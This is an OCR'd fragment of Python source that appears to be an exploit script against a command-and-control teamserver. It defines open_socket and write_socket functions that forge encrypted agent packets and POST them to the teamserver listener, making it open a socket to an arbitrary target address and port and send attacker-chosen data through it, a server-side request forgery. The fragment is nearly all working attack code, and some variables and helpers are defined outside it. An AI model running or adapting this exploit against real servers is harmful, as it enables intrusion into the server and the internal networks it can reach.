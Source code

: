 
def open_socket(socket_id, target_address, target_port):
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"
    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"

    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand + socket_id + local_addr + local_port + forward_addr + forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")


def write_socket(socket_id, data):
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand + socket_id + socket_type + success + data_length + data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data
    print(post_data)
    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")
